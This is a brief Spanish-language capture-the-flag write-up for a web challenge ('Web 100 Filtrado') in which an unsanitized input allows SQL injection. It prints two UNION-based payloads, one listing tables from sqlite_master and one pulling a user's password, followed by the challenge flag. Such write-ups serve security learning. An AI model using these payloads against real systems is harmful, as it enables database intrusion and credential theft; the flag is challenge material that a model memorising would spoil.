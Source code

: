 # Web 100 Filtrado

Este sistema muestra las cuentas de correo electronico que han sido filtradas en el darkweb, pero no estamos seguros si es fidedigna la informacion, para estar seguros, puedes ayudarnos a recuperar la contaseña filtrada de carloasmora@mail.com?

El reto nos ponia un input que no estaba sanitizado del lado del servidor, lo cual permitia un SQL injection

Lo primero fue sacar el nombre de la table y asumir que esta tendria un campo __password__.

El primer payload que mandamos fue

```sql
') union SELECT 1,tbl_name,3,4,tbl_name from sqlite_master where type='table' and tbl_name NOT like 'sqlite_%25'--
```

El resultado fue el nombre de la tabla __acounts__.

Despues exfiltramos el pass de la cuenta que nos pide y con esto la flag

```sql
') union SELECT 1,password,3,4,5 from accounts where email='carlosmora@mail.com'--
```
## FLAG
hackdef{sql_1nj3ct10n_3v3rywh3re!}